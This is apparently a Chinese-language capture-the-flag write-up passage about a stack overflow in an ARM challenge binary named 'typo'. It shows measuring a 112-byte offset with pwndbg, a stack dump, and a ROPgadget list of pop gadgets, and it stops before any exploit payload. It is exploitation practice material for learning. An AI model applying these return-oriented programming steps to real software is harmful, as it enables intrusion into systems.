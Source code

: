 可以清晰的看到存在栈溢出  
用`pwndbg`中的`cyclic`测出来偏移是`112`, 第一次做 arm 的 pwn，搞不懂返回地址在哪里存，把 stack 的数据打印出来就好了：

```
pwndbg> stack 100
00:0000│ sp   0xf6ffee78 —▸ 0xa30d8 ◂— 0
01:0004│      0xf6ffee7c —▸ 0x9c0f8 ◂— rsbvc  r6, sb, 
02:0008│      0xf6ffee80 —▸ 0xf6ffeee4 ◂— 0x0
03:000c│ r1   0xf6ffee84 ◂— 'wxmn'
04:0010│      0xf6ffee88 ◂— 0x0
... ↓
1c:0070│      0xf6ffeee8 —▸ 0x6bf08 ◂— beq    
1d:0074│      0xf6ffeeec —▸ 0xf6ffef40 —▸ 0x8af8c ◂— cdphi  p13, 
1e:0078│      0xf6ffeef0 —▸ 0xf6ffef2c —▸ 0xa0ac ◂— bl     
1f:007c│ r11  0xf6ffeef4 —▸ 0x9058 ◂— str    r0, [fp, 
20:0080│      0xf6ffeef8 —▸ 0xf6fff084 —▸ 0xf6fff241 ◂— './typo'
21:0084│      0xf6ffeefc ◂— 0x1
22:0088│      0xf6ffef00 ◂— 0x6
23:008c│      0xf6ffef04 —▸ 0xf6fff241 ◂— './typo'
24:0090│      0xf6ffef08 —▸ 0x8cb4 ◂— push   {r3, lr}
25:0094│      0xf6ffef0c —▸ 0xa670 ◂— cmp    r4, sb /* 't' */


```

可以发现返回地址存在`r11`，距离`R11`的偏移也刚刚好是`112`

然后用 ROPgadget 找到合适的指令

```
 radish ➜ arm-pwn  ROPgadget --binary typo --only 'pop'
Gadgets information
============================================================
0x00008d1c : pop {fp, pc}
0x00020904 : pop {r0, r4, pc}
0x00068bec : pop {r1, pc}
0x00008160 : pop {r3, pc}
0x0000ab0c : pop {r3, r4, r5, pc}
0x0000a958 : pop {r3, r4, r5, r6, r7, pc}
0x00008a3c : pop {r3, r4, r5, r6, r7, r8, fp, pc}
0x0000a678 : pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x00008520 : pop {r3, r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x00068c68 : pop {r3, r4, r5, r6, r7, r8, sl, pc}
0x00014a70 : pop {r3, r4, r7, pc}
0x00008de8 : pop {r4, fp, pc}
0x000083b0 : pop {r4, pc}
0x00008eec : pop {r4, r5, fp, pc}
0x00009284 : pop {r4, r5, pc}
0x000242e0 : pop {r4, r5, r6, fp, pc}
0x000095b8 : pop {r4, r5, r6, pc}
0x000212ec : pop {r4, r5, r6, r7, fp, pc}
0x000082e8 : pop {r4, r5, r6, r7, pc}
0x00043110 : pop {r4, r5, r6, r7, r8, fp, pc}
0x00011648 : pop {r4, r5, r6, r7, r8, pc}
0x00048e9c : pop {r4, r5, r6, r7, r8, sb, fp, pc}
0x0000a5a0 : pop {r4, r5, r6, r7, r8, sb, pc}
0x0000870c : pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x00011c24 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x000553cc : pop {r4, r5, r6, r7, r8, sl, pc}
0x00023ed4 : pop {r4, r5, r7, pc}
0x00023dbc : pop {r4, r7, pc}
0x00014068 : pop {r7, pc}

Unique gadgets found: 29
 radish ➜ arm-pwn

```